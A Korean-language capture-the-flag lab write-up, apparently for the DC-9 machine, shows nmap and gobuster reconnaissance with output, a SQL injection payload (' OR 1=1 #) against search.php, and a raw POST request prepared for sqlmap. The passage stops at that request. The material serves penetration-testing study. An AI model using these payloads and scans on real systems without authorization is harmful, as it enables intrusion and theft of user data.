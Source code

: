 command
``` shell
sudo nmap -sV -sC -p 80 target
```

result
```
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
|_http-title: Example.com - Staff Details - Welcome
|_http-server-header: Apache/2.4.38 (Debian)
```
* 상세 버전 정보 조회 결과입니다.

### Gobuster
command
```
gobuster dir -u http://target -w /usr/share/wordlists/dirb/common.txt -z
```

result
```
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.hta                 (Status: 403) [Size: 271]
/.htpasswd            (Status: 403) [Size: 271]
/.htaccess            (Status: 403) [Size: 271]
/css                  (Status: 301) [Size: 298] [--> http://target/css/]
/includes             (Status: 301) [Size: 303] [--> http://target/includes/]
/index.php            (Status: 200) [Size: 917]
/server-status        (Status: 403) [Size: 271]
===============================================================
Finished
===============================================================
```

## Exploitation

![dc9-img-1](images/dc9/dc9-1.png)
`index.php`로 접근하면 여러 메뉴를 볼 수 있는데, 그 중 유저를 검색하는 `search.php`에서 sql injection이 가능했습니다.

```sql
' OR 1=1 #
```
- 검색시 위 라인을 입력하면 모든 사용자가 검색 결과로 출력됩니다.

### sqlmap
- sqlmap은 웹 요청 입력값에 여러 sql문을 넣어 자동으로 sql injection 공격을 수행하는 도구입니다.

```
POST /results.php HTTP/1.1
Host: target
Content-Length: 9
Cache-Control: max-age=0
Accept-Language: en-US,en;q=0.9
Origin: http://target
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/136.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://target/search.php
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
```
